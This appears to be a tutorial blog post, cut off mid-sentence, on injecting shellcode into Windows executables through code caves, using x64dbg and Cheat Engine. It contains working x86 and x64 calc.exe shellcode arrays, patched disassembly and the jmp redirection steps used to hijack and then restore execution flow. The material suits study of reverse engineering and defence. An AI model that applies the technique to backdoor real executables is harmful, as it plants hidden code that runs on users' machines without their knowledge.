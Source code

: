 ```yaml
---
title: "Using code caves to inject custom shellcode"
classes: wide
header:
  teaser: /assets/images/injection/codecaves/codecaves.png
ribbon: DodgerBlue
description: "Learn how to use code caves to inject custom code into a .exe file"
categories:
  - Injection
toc: true
---
```


# Code caves

First of all, **what are code caves?**

Code caves are a chunk of null bytes (`0x00`) in a process's memory. Here's how they look like in `x64dbg`:

![Code cave chunk, x64dbg](/assets/images/injection/codecaves/codecaves.png)

# How to find these code caves?

Most of the times, it's pretty easy. Just open the target process with `x64dbg` and scroll down to the end until you see a bunch of these null instructions:
```c
0040269D | 0000                     | add byte ptr ds:[eax],al                |
0040269F | 0000                     | add byte ptr ds:[eax],al                |
004026A1 | 0000                     | add byte ptr ds:[eax],al                |
004026A3 | 0000                     | add byte ptr ds:[eax],al                |
004026A5 | 0000                     | add byte ptr ds:[eax],al                |
004026A7 | 0000                     | add byte ptr ds:[eax],al                |
004026A9 | 0000                     | add byte ptr ds:[eax],al                |
```
You can then paste your shellcode in place of these null instructions (tutorial below).

If you want, you can also use Cheat Engine's "Scan for code caves" feature:


![Writing our shellcode](/assets/images/injection/codecaves/scan.png)

Then untick "*Also scan non-executable read only memory*" (because we want to inject executable shellcode):

![Clicking](/assets/images/injection/codecaves/click.png)

You'll then be able to see a list of many empty executable addresses within the process's memory state, that you can use to write your shellcode in:
![Code cave addresses](/assets/images/injection/codecaves/addresses.png)

# Taking advantage of code caves to inject shellcode

As you may know, we can take advantage of these unused bytes to directly inject raw executable opcodes (shellcode) within the application.

We can use this simple **x86 shellcode** that opens a calculator (`calc.exe`):

```c

// open calc.exe (195 bytes x86 shellcode).
unsigned char shellcode[] = 
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";
```

First, we'll go to the shellcode, and add the following instructions:

```
pushad
pushfd
```

The x86 instruction `pushad` pushes all of the general-purpose register onto the stack, and the `pushfd` instruction pushes all the `EFLAGS` register onto the stack.

We need these instructions because we'll need to restore the original register state and jump back to the original execution flow after executing our shellcode:
![Writing initial instructions](/assets/images/injection/codecaves/codecaves1.png)


We can then paste our shellcode after those 2 initial instructions:

![Writing our shellcode](/assets/images/injection/codecaves/pasting.png)

We now have this code instead of the initial `0x00` bytes:
```c
00401D5D | 60                       | pushad                                  | // <--- Pushes the contents of the general-purpose registers onto the stack
00401D5E | 9C                       | pushfd                                  | // <--- Pushes the entire contents of the EFLAGS register onto the stack
00401D5F | 89E5                     | mov ebp,esp                             | // We now paste our shellcode
00401D61 | 83EC 20                  | sub esp,20                              |
00401D64 | 31DB                     | xor ebx,ebx                             |
00401D66 | 64:8B5B 30               | mov ebx,dword ptr fs:[ebx+30]           |
00401D6A | 8B5B 0C                  | mov ebx,dword ptr ds:[ebx+C]            |
00401D6D | 8B5B 1C                  | mov ebx,dword ptr ds:[ebx+1C]           |
00401D70 | 8B1B                     | mov ebx,dword ptr ds:[ebx]              |
00401D72 | 8B1B                     | mov ebx,dword ptr ds:[ebx]              |
00401D74 | 8B43 08                  | mov eax,dword ptr ds:[ebx+8]            |
00401D77 | 8945 FC                  | mov dword ptr ss:[ebp-4],eax            |
00401D7A | 8B58 3C                  | mov ebx,dword ptr ds:[eax+3C]           |
00401D7D | 01C3                     | add ebx,eax                             |
00401D7F | 8B5B 78                  | mov ebx,dword ptr ds:[ebx+78]           |
00401D82 | 01C3                     | add ebx,eax                             |
00401D84 | 8B7B 20                  | mov edi,dword ptr ds:[ebx+20]           | edi:EntryPoint
00401D87 | 01C7                     | add edi,eax                             | edi:EntryPoint
00401D89 | 897D F8                  | mov dword ptr ss:[ebp-8],edi            | edi:EntryPoint
00401D8C | 8B4B 24                  | mov ecx,dword ptr ds:[ebx+24]           | ecx:EntryPoint
00401D8F | 01C1                     | add ecx,eax                             | ecx:EntryPoint
00401D91 | 894D F4                  | mov dword ptr ss:[ebp-C],ecx            | ecx:EntryPoint
00401D94 | 8B53 1C                  | mov edx,dword ptr ds:[ebx+1C]           | edx:EntryPoint
00401D97 | 01C2                     | add edx,eax                             | edx:EntryPoint
00401D99 | 8955 F0                  | mov dword ptr ss:[ebp-10],edx           | edx:EntryPoint
00401D9C | 8B53 14                  | mov edx,dword ptr ds:[ebx+14]           | edx:EntryPoint
00401D9F | 8955 EC                  | mov dword ptr ss:[ebp-14],edx           | edx:EntryPoint
00401DA2 | EB 32                    | jmp codecaving.401DD6                   |
00401DA4 | 31C0                     | xor eax,eax                             |
00401DA6 | 8B55 EC                  | mov edx,dword ptr ss:[ebp-14]           | edx:EntryPoint
00401DA9 | 8B7D F8                  | mov edi,dword ptr ss:[ebp-8]            | edi:EntryPoint
00401DAC | 8B75 18                  | mov esi,dword ptr ss:[ebp+18]           | esi:EntryPoint
00401DAF | 31C9                     | xor ecx,ecx                             | ecx:EntryPoint
00401DB1 | FC                       | cld                                     |
00401DB2 | 8B3C87                   | mov edi,dword ptr ds:[edi+eax*4]        | edi:EntryPoint
00401DB5 | 037D FC                  | add edi,dword ptr ss:[ebp-4]            | edi:EntryPoint
00401DB8 | 66:83C1 08               | add cx,8                                |
00401DBC | F3:A6                    | repe cmpsb                              |
00401DBE | 74 05                    | je codecaving.401DC5                    |
00401DC0 | 40                       | inc eax                                 |
00401DC1 | 39D0                     | cmp eax,edx                             | edx:EntryPoint
00401DC3 | 72 E4                    | jb codecaving.401DA9                    |
00401DC5 | 8B4D F4                  | mov ecx,dword ptr ss:[ebp-C]            | ecx:EntryPoint
00401DC8 | 8B55 F0                  | mov edx,dword ptr ss:[ebp-10]           | edx:EntryPoint
00401DCB | 66:8B0441                | mov ax,word ptr ds:[ecx+eax*2]          |
00401DCF | 8B0482                   | mov eax,dword ptr ds:[edx+eax*4]        |
00401DD2 | 0345 FC                  | add eax,dword ptr ss:[ebp-4]            |
00401DD5 | C3                       | ret                                     |
00401DD6 | BA 78786563              | mov edx,63657878                        | edx:EntryPoint
00401DDB | C1EA 08                  | shr edx,8                               | edx:EntryPoint
00401DDE | 52                       | push edx                                | edx:EntryPoint
00401DDF | 68 57696E45              | push 456E6957                           |
00401DE4 | 8965 18                  | mov dword ptr ss:[ebp+18],esp           |
00401DE7 | E8 B8FFFFFF              | call codecaving.401DA4                  |
00401DEC | 31C9                     | xor ecx,ecx                             | ecx:EntryPoint
00401DEE | 51                       | push ecx                                | ecx:EntryPoint
00401DEF | 68 2E657865              | push 6578652E                           |
00401DF4 | 68 63616C63              | push 636C6163                           |
00401DF9 | 89E3                     | mov ebx,esp                             |
00401DFB | 41                       | inc ecx                                 | ecx:EntryPoint
00401DFC | 51                       | push ecx                                | ecx:EntryPoint
00401DFD | 53                       | push ebx                                |
00401DFE | FFD0                     | call eax                                |
00401E00 | E8 A5020000              | call codecaving.4020AA                  | // end of shellcode
```

Now, after we pasted our shellcode, we need to modify our exe's code so that we `jmp` to the address of the start of the shellcode (`00401D5D`),

and then add a jmp instruction at the *end* of the shellcode to `jmp` back to the original execution flow (so that we don't break the program).

I chose this instruction to modify:
```c
jmp 0x00401D14
```
So first, let's modify that instruction instruction to `jmp` to the start of our shellcode (at address `00401D5D`) instead of `00401D14`

So instead of `jmp 0x00401D14`, it will be `jmp 00401D5D`:
![Jumping to our shellcode](/assets/images/injection/codecaves/oep.png)

And then at the end of our shellcode, we `jmp` to the actual instruction that the original `jmp` went to (`0x00401D14`):

![Jumping to our shellcode](/assets/images/injection/codecaves/end.png)

Now, after applying our patches in `x64dbg`, we can see that the program also launches `calc.exe` alongside its original payload:

![Successfully opening calc.exe](/assets/images/injection/codecaves/success.png)

# Shellcode injection in x64 processes

In x64 files, there's no `pushad` or `pushfd` instruction; you'd have to manually push all of the general-purpose registers.

Before writing our shellcode, we'll write these instructions:
```
push rbx
push rcx
push rdx
push rsi
push rdi
push rbp
push r8
push r9
push r10
push r11
push r12
push r13
push r14
push r15
```
![Pushing x64 registers](/assets/images/injection/codecaves/x64shellcode.png)


I will use this x64 shellcode to open `calc.exe`:
```c
unsigned char array[] = {
    0x48, 0x31, 0xFF, 0x48, 0xF7, 0xE7, 0x65, 0x48, 0x8B, 0x58, 0x60, 0x48, 0x8B, 0x5B, 0x18, 0x48,
    0x8B, 0x5B, 0x20, 0x48, 0x8B, 0x1B, 0x48, 0x8B, 0x1B, 0x48, 0x8B, 0x5B, 0x20, 0x49, 0x89, 0xD8,
    0x8B, 0x5B, 0x3C, 0x4C, 0x01, 0xC3, 0x48, 0x31, 0xC9, 0x66, 0x81, 0xC1, 0xFF, 0x88, 0x48, 0xC1,
    0xE9, 0x08, 0x8B, 0x14, 0x0B, 0x4C, 0x01, 0xC2, 0x4D, 0x31, 0xD2, 0x44, 0x8B, 0x52, 0x1C, 0x4D,
    0x01, 0xC2, 0x4D, 0x31, 0xDB, 0x44, 0x8B, 0x5A, 0x20, 0x4D, 0x01, 0xC3, 0x4D, 0x31, 0xE4, 0x44,
    0x8B, 0x62, 0x24, 0x4D, 0x01, 0xC4, 0xEB, 0x32, 0x5B, 0x59, 0x48, 0x31, 0xC0, 0x48, 0x89, 0xE2,
    0x51, 0x48, 0x8B, 0x0C, 0x24, 0x48, 0x31, 0xFF, 0x41, 0x8B, 0x3C, 0x83, 0x4C, 0x01, 0xC7, 0x48,
    0x89, 0xD6, 0xF3, 0xA6, 0x74, 0x05, 0x48, 0xFF, 0xC0, 0xEB, 0xE6, 0x59, 0x66, 0x41, 0x8B, 0x04,
    0x44, 0x41, 0x8B, 0x04, 0x82, 0x4C, 0x01, 0xC0, 0x53, 0xC3, 0x48, 0x31, 0xC9, 0x80, 0xC1, 0x07,
    0x48, 0xB8, 0x0F, 0xA8, 0x96, 0x91, 0xBA, 0x87, 0x9A, 0x9C, 0x48, 0xF7, 0xD0, 0x48, 0xC1, 0xE8,
    0x08, 0x50, 0x51, 0xE8, 0xB0, 0xFF, 0xFF, 0xFF, 0x49, 0x89, 0xC6, 0x48, 0x31, 0xC9, 0x48, 0xF7,
    0xE1, 0x50, 0x48, 0xB8, 0x9C, 0x9E, 0x93, 0x9C, 0xD1, 0x9A, 0x87, 0x9A, 0x48, 0xF7, 0xD0, 0x50,
    0x48, 0x89, 0xE1, 0x48, 0xFF, 0xC2, 0x48, 0x83, 0xEC, 0x20, 0x41, 0xFF, 0xD6
};
```

Before pasting the shellcode, we'll have to

